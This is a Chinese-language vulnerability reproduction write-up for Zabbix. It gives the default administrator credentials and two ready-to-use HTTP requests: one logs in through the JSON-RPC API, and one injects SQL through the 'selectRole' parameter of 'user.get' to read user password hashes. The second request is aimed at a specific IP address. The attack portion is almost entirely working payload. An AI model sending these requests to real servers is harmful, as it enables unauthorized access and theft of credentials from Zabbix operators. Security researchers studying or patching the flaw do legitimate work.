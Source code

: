 ‍  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OiaZBsiciaGvkTgj2kRM9HGuZTKHBNarkxfEEnTRv0YGVruealxM50nzC3cgtlDZLwflL4BcicR907LgozEyO8qlRg/640?wx_fmt=png&from=appmsg "")  
  
默认账号密码为：  
```
Admin/zabbix
```  
  
  
漏洞复现  
  
由于漏洞是后台洞，首先需要获取账号密码，这里使用默认账密  
‍  
```
POST /api_jsonrpc.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 14.3) AppleWebKit/616.24 (KHTML, like Gecko) Version/17.2 Safari/616.24
Connection: keep-alive
Content-Type: application/json-rpc
Accept-Encoding: gzip, deflate, br
Content-Length: 119

{
  "jsonrpc": "2.0",
  "method": "user.login",
  "params": { "username": "Admin", "password": "zabbix" },
  "id": 1
}
```  
  
账密错误的话，响应包如下：  
‍  
‍  
‍  
‍  
‍  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OiaZBsiciaGvkTIbL4M1CXUwtHfrUmKWb9yoGGkCrtMQF6Ow2cJhFWRWGz6jmbCS6awJWmGCfk6H9XfXiajGnicQPrg/640?wx_fmt=png&from=appmsg "")  
  
账密正常的情况，响应包如下：  
‍  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OiaZBsiciaGvkTIbL4M1CXUwtHfrUmKWb9ybOvrNJMQolILtXZgmLsTTKbOAu6Nnmy3QOgRxM5icUKfuSc1jDjBrhw/640?wx_fmt=png&from=appmsg "")  
  
拿到  
result的值后，使用第二个数据包，将auth的值改为  
result的值  
‍  
‍  
‍  
```
POST /api_jsonrpc.php HTTP/1.1
Host: 154.21.200.44
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4.1 Safari/605.9.25
Connection: keep-alive
Content-Length: 167
Content-Type: application/json-rpc
Accept-Encoding: gzip, deflate, br
 
{"jsonrpc": "2.0", "method": "user.get", "params": {"selectRole": ["roleid, u.passwd", "roleid"], "userids": "1"}, "auth": "20b3fa81927949fbc55bfdd008674b22", "id": 2}
```  
  